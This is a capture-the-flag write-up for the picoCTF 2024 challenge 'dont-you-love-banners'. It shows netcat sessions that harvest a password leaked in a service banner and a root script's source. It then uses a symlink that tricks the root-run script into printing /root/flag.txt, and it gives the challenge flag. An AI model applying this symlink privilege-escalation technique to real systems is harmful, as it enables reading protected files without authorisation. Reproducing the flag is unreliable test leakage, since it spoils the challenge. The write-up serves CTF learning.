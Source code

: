 ### dont-you-love-banners

Author: Loic Shema / syreal
#Medium #General-skills #picoCTF2024 #shell #browser_web_shell 
#### Description

Can you abuse the banner? The server has been leaking some crucial information on `tethys.picoctf.net 54818`. 
Use the leaked information to get to the server. To connect to the running application use 
`nc tethys.picoctf.net 52712`. From the above information abuse the machine and find the flag in the /root directory.

##### Solution:

first server give password information
```css   
┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 54818
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

```

2nd server can access using password
```css
┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 52712
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
```

```css
player@challenge:/$ cd root
cd root
player@challenge:/root$ ls
ls
flag.txt  script.py
player@challenge:/root$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied

```

```css
player@challenge:/$ ls -la root
ls -la root
total 16
drwxr-xr-x 1 root root    6 Mar  9  2024 .
drwxr-xr-x 1 root root   29 Sep 29 10:57 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar  9  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py

```

```python
player@challenge:/$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt

```

if you notice home banner is print due to `with open("/home/player/banner", "r")`

now use symbolic link to print flag `ln -s /root/flag.txt banner`


```css
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ cat banner
cat banner
cat: banner: Permission denied
player@challenge:~$ ls -la
ls -la
total 16
drwxr-xr-x 1 player player   20 Sep 29 11:15 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
lrwxrwxrwx 1 player player   14 Sep 29 11:15 banner -> /root/flag.txt
-rw-r--r-- 1 root   root     13 Feb  7  2024 text

```

simply disconnect server and connect again
```css
┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 52712
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}

what is the password? 
```

here you get flag `picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}`